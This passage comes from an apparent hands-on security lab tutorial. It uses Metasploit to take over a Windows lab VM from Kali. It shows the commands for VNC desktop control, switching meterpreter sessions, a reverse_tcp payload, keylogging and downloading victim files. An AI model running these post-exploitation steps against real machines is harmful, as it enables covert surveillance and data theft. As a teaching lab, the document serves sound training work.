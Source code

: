 Run `exploit` anew.

A new window should open on Kali Linux that will let you control the Windows VM
using the mouse. <span class='badge badge-success'>You are now controlling the
Windows user interface!</span> Whatever you do, the logged-in user will see!
Trying moving a window on the Windows VM. Then, close the VNC window on the Kali
VM. Because you closed the VNC window, the exploit terminated.

Once you are done playing with VNC access, switch back to a meterpreter session.
From `msfconsole`, run `sessions -l` to view all running
connections. You should see a list of your sessions, including your meterpreter
session, along with its `id`. Interact with that session again by running `sessions <the id of the session>`.
Your prompt should change, and you should be engaged with the meterpreter session again.

Re-arm the meterpreter payload for use in later sections of this lab:

    set payload windows/meterpreter/reverse_tcp


## Keylogger    

Start a keylogger on the victim's computer. Type `keyscan_start`. Now, from
the Windows machine, open Notepad.exe and type some secrets. They are no
longer secrets.

Back in meterpreter, type `keyscan_dump`.
You should see the text you typed in Notepad. To stop the keylogger, type `keyscan_stop`.


## Steal files

Steal a file—download a file from Windows to Kali.

As the Labuser, use Notepad to create a text document on the Desktop of
the Windows machine. Put some secrets in it.

From the meterpreter session, use the `cd` command within Meterpreter to
navigate to the victim desktop. For that, you can either use the Windows
path specification, with double back-slashes:

    cd c:\\users\\Labuser\\desktop

... or you can use linux path specification:

    cd /Users/Labuser/desktop

Now type `ls` to see what you might pilfer.

Snag the secrets file.

    download [filename to steal]

The file should now be pilfered, saved to the Kali VM at `/root`.

You can also use the `search` command from within meterpreter to find the
location of the secrets file:

    search -f [name of your secrets file].txt
